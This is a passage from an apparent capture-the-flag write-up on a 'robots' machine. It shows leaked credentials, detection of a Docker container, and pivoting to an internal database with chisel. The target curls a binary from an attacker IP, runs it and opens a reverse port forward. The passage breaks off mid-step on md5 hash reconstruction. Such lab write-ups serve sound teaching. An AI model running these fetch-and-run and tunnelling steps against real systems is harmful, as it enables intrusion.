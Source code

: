 ![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317152150.png)

Found ourselves credentials:

```
robots:q4qCz1OflKvKwK4S
```

If we try these credentials in ssh, they don't work, we need to keep searching around, for example, at `/`, we find this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317152505.png)

We found a `.dockerenv` file, this could mean we are inside of a docker environment, let's search `/etc/hosts`:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317152549.png)

And it was right, we are inside of a docker container, we can try using [chisel](https://github.com/jpillora/chisel), let's do the following:

```
./chisel server --reverse --port 51234
```


Now, we need to download the chisel binary on our target machine and do this, `wget` is not enabled in the machine so we need to do it by curl, we also need to see where is the db located at so let's do this first:

```
www-data@robots:/tmp$ getent hosts db
172.18.0.3      db
```

```
curl http://10.6.34.159:8000/chisel -o chisel
chmod +x chisel
./chisel client 10.6.34.159:51234 R:3306:172.18.0.3:3306
```

We now receive a connection in our local machine chisel:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317154806.png)


We can now access the db:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317155125.png)


We can find this inside the db:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317155227.png)

We got the password for another user `rgiskard`, the interesting thing in here is that the md5 hash does not coincide with the one registered at the site, so, we need to reconstruct the hash, for this, we must understand the hash, let's go to CyberChef to analyze our hash, let's remember that we set the script account with the date of `01/01/2000`, so we need to do the hash like this:
